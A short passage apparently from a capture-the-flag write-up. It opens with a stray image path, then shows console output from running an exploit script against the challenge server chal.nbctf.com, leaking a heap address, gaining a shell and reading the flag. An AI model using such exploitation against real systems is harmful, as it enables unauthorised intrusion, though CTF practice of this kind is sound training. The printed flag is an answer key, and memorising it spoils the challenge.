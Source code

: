 Running the script gives us shell on the remote server, where we can get the flag.
```console
root@c64168b790b1:/home/ctf# python3 exploit.py
[+] Opening connection to chal.nbctf.com on port 30172: Done
[+] Heap leak @ 0x22702a0
[*] Switching to interactive mode
Bye!
$ ls
flag.txt
run
$ cat flag.txt
nbctf{b4Bys_f1R5T_h34P_12b8a0}
```
